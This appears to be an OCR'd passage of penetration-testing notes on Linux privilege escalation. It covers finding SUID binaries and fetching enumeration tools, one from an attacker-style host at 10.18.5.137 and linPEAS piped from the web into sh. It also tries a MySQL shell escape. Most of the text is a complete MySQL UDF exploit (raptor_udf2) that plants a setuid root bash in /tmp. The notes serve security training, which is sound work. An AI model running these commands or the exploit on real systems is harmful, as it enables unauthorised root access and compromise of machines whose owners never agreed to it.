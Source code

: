 ## BINARIES THAT AUTO ELEVATE
```
find / -perm -u=s -type f 2>/dev/null
```

# 3. AUTOMATED ENUMERATION 

## UNIX-PRIVESC-CHECK
```
https://pentestmonkey.net/tools/audit/unix-privesc-check
sudo wget https://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz
sudo tar -xf unix-privesc-check-1.4.tar.gz
wget http://10.18.5.137:8000/unix-privesc-check-1.4/unix-privesc-check
chmod 777 unix-privesc-check
./unix-privesc-check
./unix-privesc-check standard
./unix-privesc-check detailed
./unix-privesc-check standard > output.txt
cat output.txt
```

## LINPEAS
```
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## LINUX PRIVILEGE CHECKER


# 4. MISCONFIGURATIONS/VULNERABILITIES EXPLOITATION 

## CATEGORY "SERVICES" - SERVICE EXPLOITS
check mysql database version
```
mysql -V
mysql --version
mysql -u root -p
mysql> show variables like '%version%';
```
MySQL is running as root, but with this root access, we cannot get root access using the shell escape technique.
```
mysql -u root -p
mysql> \! sh
```
exploit POC is as follows:
```
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root
use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
/tmp/rootbash -p
rm /tmp/rootbash
```